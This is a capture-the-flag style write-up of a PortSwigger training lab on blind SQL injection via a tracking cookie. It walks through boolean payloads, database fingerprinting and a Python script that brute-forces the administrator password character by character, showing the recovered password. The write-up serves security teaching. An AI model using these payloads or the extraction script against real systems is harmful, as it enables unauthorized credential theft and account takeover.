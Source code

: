 # Blind SQL injection with conditional responses | Dec 6, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses), you'll learn: Blind SQL injection with conditional responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206022121.png)

**Tracking cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025042.png)

**Since this tracking cookie will be supplied to an SQL query, we can assume the SQL statement is:**
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'ikI75WAivHT5piK1'
```

This indeed vulnerable to SQL injection. However, **the results from the query are not returned to the user**.

**Let's try to exploit this SQL injection vulnerability!**

**To do so, I'll:**

- Change the tracking cookie value to an SQL injection payload:

```sql
ikI75WAivHT5piK1' AND '1'='1
```

**So the SQL query will become:**
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'ikI75WAivHT5piK1' AND '1'='1'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025139.png)

**When we refresh the page, we see `Welcome back!`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025157.png)

**And we change the payload to `1=2`:**
```sql
ikI75WAivHT5piK1' AND '1'='2
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206025239.png)

The `Welcome back!` is missing!

**This is because `'1'='1'` is always true, and `'1'='2'` is always false.**

Now, we found a blind SQL injection. But how to exploit it?

**To exploit a blind SQL injection, we can use `SUBSTRING` function!**

**Also, for the sake of automation, I'll write a python script to send the cookie payload:**
```py
#!/usr/bin/env python3

import requests

url = 'https://0a3000450433ea41c0ad68b200e40077.web-security-academy.net/'

trackingid = 'YOUR_TRACKING_ID'
payload = f'''{trackingid}PAYLOAD_HERE'''

cookie = {
	'session': 'YOUR_SESSION_ID',
	'TrackingId': payload
}

r = requests.get(url, cookies=cookie)

if 'Welcome back!' in r.text:
	print('True')
else:
	print('False')
```

If the boolean value returns true, then we know there is a `Welcome back!` text in the web page.

**But first, let's find out which DBMS(Database Management System) is using:**
```py
payload = f'''{trackingid}' AND SUBSTR(version(),1,10) = 'PostgreSQL'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

Can confirm the DBMS is **PostgreSQL**.

**Next, let's find the table name!**

> Note: The lab background already gave us a table called `users`, and it has 2 columns called `username` and `password`.

```py
payload = f'''{trackingid}' AND (SELECT table_name FROM information_schema.tables WHERE table_name='users') = 'users'''
```

> Note: You can try to use a wordlist to brute force all possible table names.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

As we can see, it outputs `True`, which means there is a table call `users`.

**Then, we can try to confirm the `administrator` username:**
```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator')='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

Confirm `administrator` username is exist.

**Then, to find the password, we can loop through all possible characters.**

**However, let's find how many characters of `administrator` password:**
```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
True
```

```py
payload = f'''{trackingid}' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a'''
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
False
```

As you can see, when we try to find password's length greater than 20, it returns false. **Which means the exact length of `administrator` password is 20.**

**Then, we can finally find `administrator` password!**
```py
#!/usr/bin/env python3

import requests
from string import ascii_lowercase, digits

url = 'https://0a3000450433ea41c0ad68b200e40077.web-security-academy.net/'

trackingid = 'ikI75WAivHT5piK1'

chars = ascii_lowercase + digits
position = 1
password = ''

while True:
	for character in chars:
		payload = f'''{trackingid}' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{character}'''
		cookie = {
			'session': 'YOUR_SESSION_ID',
			'TrackingId': payload
		}

		r = requests.get(url, cookies=cookie)

		if 'Welcome back!' in r.text:
			# print('True')
			password += ''.join(character)
			print(f'[+] Found password: {password}', end='\r')
			position += 1
			break
		else:
			# print('False')
			pass

	if len(password) >= 20:
		print(f'[+] administrator password: {password}')
		exit()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-11]
└─# python3 exploit.py
[+] administrator password: arz66egk9vslbyuo8y9u
```

**We found `administrator` password! Let's login!!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206045036.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-11/images/Pasted%20image%2020221206045050.png)

We're user `administrator`!

# What we've learned:

1. Blind SQL injection with conditional responses
